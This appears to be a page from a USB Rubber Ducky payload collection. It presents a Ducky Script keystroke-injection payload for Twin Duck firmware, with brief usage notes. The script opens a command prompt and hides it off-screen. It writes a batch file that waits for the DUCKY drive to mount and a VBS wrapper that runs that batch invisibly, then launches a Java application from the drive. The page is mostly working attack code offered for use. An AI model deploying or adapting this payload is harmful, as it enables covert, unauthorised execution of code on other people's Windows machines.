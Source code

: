 The following is another payload for running applications on Twin duck firmware from off your SD card automatically. This payload waits for the ducky drive to mount, then switches to the directory containing the Java payload, then launches the payload. I don't know how useful this will be, but it is here if you need it. This only runs on Windows systems, but should run on all current Windows thanks to some code written by googleknowsbest. Change "JavaApp" to the name of your application. 
```
REM Author: overwraith
REM Name: Java_Application.txt
REM Purpose: Run a java application off the ducky drive after it mounts.  
REM Encoder V2.4
REM Using the run command for a broader OS base. 
DEFAULT_DELAY 25
DELAY 3000
GUI r
DELAY 1000
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER

REM Change directories because System32 appears to be protected. 
STRING CD %TEMP%
ENTER

REM Make batch file that waits for SD card to mount. 
REM Delete batch file if already exists
STRING erase /Q DuckyWait.bat
ENTER
STRING copy con DuckyWait.bat
ENTER
REM DuckyWait.bat
STRING :while1
ENTER

STRING for /f "tokens=3 delims= " %%A in ('echo list volume ^| diskpart ^| findstr "DUCKY"') do (set DUCKYdrive=%%A:)
ENTER
STRING if Exist %DUCKYdrive% (
ENTER
STRING goto :break
ENTER
STRING )
ENTER
STRING timeout /t 30
ENTER
STRING goto :while1
ENTER
STRING :break
ENTER
REM Continue script.
STRING %DUCKYdrive%
ENTER
STRING cd Java_Application
ENTER
STRING Java JavaApp
ENTER
CONTROL z
ENTER

REM MAKE THE VBS FILE THAT ALLOWS RUNNING INVISIBLY.
REM Delete vbs file if already exists
STRING erase /Q invis.vbs
ENTER
REM FROM: http://stackoverflow.com/questions/289498/running-batch-file-in-background-when-windows-boots-up
STRING copy con invis.vbs
ENTER
STRING CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
ENTER
CONTROL z
ENTER

REM RUN THE BATCH FILE
STRING wscript.exe invis.vbs DuckyWait.bat
ENTER
STRING EXIT
ENTER
```

If you are not containing this script and the application within a folder on the ducky drive, then remove this line: 

```
...
STRING cd Java_Application
ENTER
...
```